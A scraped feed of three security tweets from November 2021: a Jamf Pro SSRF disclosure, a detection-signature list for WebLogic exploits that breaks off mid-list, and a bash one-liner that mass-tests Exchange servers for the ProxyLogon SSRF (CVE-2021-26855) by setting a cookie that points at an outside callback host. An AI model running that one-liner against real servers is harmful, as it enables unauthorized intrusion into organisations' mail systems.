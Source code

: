 # infosec_au
**https://twitter.com/infosec_au/status/1465806290995740672 _at 2021-11-30 22:13:47_**
<blockquote>
The Assetnote security research team discovered a full-read SSRF vulnerability in Jamf Pro (post-authentication) a few months ago. https://t.co/mOaKcJHVUe (CVE-2021-39303 &amp; CVE-2021-40809). Tracing sinks to sources is always a valid strategy.
</blockquote>

* https://blog.assetnote.io/2021/11/30/jamf-ssrf/

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>92</code></td>
<td>Favorites: <code>287</code></td>
</tr></table>

---

# HackerGautam
**https://twitter.com/HackerGautam/status/1465746218710183940 _at 2021-11-30 18:15:05_**
<blockquote>
CVE-2021-26855
Exchange Server SSRF is awesome! 🔥

One Liner ✅

cat target.txt| while read host do;do curl --insecure --path-as-is --silent "$host/owa/auth/x.js" --cookie "X-AnonResource=true; X-AnonResource-Backend=https://t.co/uj6I0mgZN2;";done
</blockquote>

* http://bugbounty.requestcatcher.com/ecp/default.flt?~3

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>65</code></td>
<td>Favorites: <code>209</code></td>
</tr></table>

---

# TheDFIRReport
**https://twitter.com/TheDFIRReport/status/1465660777063456774 _at 2021-11-30 12:35:34_**
<blockquote>
Detections 

IDS Sigs
ET WEB_SPECIFIC_APPS Possible Oracle WebLogic RCE Inbound M2 (CVE-2020-14882)
ET POLICY External Oracle T3 Requests Inbound
ET EXPLOIT Serialized Java Object Calling Common Collection Function
